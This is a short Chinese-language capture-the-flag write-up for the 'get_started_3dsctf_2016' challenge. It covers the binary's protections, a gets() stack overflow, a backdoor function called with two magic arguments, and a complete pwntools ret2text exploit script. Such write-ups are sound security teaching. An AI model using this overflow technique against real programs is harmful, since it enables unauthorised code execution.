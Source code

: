# 知识点

ret2text



# 题目分析

1. 查看保护情况，32位，开启NX保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，发现存在gets函数栈溢出漏洞。

   <img src="./isset/ida1.png" alt="ida1" style="zoom:50%;" />

3. 继续分析，发现提供了后门函数。传递参数a1 = 814536271，a2 = 425138641即可orw输出flag。

   <img src="./isset/ida2.png" alt="ida2" style="zoom:50%;" />

4. 通过观察汇编代码，发现main函数起始没有push和pop ebp，而是直接移动esp。因此，垃圾字符不需要填充ebp。

   当然，除了观察汇编代码，我们通过gdb动态调试也可以得到偏移距离。

   <img src="./isset/ida3.png" alt="ida3" style="zoom:50%;" />

# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./get_started_3dsctf_2016')

get_flag = 0x080489A0

payload = 'A' * 0x38 + p32(get_flag) + p32(0) + p32(814536271) + p32(425138641)
io.sendline(payload)

io.interactive()
```

